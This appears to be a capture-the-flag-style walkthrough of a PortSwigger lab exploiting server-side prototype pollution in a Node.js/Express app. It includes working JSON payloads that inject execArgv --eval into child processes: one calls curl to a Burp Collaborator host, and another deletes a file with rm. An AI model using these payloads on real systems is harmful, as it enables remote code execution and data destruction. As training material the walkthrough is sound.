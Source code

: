 # Remote code execution via server-side prototype pollution

[This lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution) is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that arbitrary system commands can be injected, that are executed on the server.

## Reproduction and PoCs

### Study the address change feature

1. Log in with `wiener:peter` and visit the account page. Submit the form for updating your billing and delivery address.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the `POST /my-account/change-address` request.
3. When submitting the form, the data from the fields is sent to the server as JSON. The server responds with a JSON object that appears to represent your user. This has been updated to reflect the new address information.
4. Send the request to Burp Repeater.

### Identify a prototype pollution source

1. In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property.

```text
"__proto__": {
    "json spaces":10
}
```

2. Send the request.
3. In the Response panel, switch to the **Raw** tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Probe for remote code execution

1. In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.
2. Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.
3. Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process. Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server. For example:

```text
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

4. Send the request.

![Prototype pollution](/_static/images/pp21.png)

5. In the browser, go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time.
6. In Burp, go to the **Collaborator** tab and poll for interactions. Several DNS interactions, confirming the remote code execution have been received.

![Prototype pollution](/_static/images/pp22.png)

### Craft an exploit

1. In Repeater, replace the curl command with a command for deleting Carlos's file:

```text
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

2. Send the request.

![Prototype pollution](/_static/images/pp23.png)

3. Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted and the lab is solved.

![Prototype pollution](/_static/images/pp24.png)

## Exploitability

The command execution sink is only invoked when an admin user triggers vulnerable functionality on the site. An attacker will need to already have escalated privileges, giving access to admin functionality; find a prototype pollution source that can be used to add arbitrary properties to the global `Object.prototype`; identify a gadget that can be used to inject and execute arbitrary system commands; and trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`. 
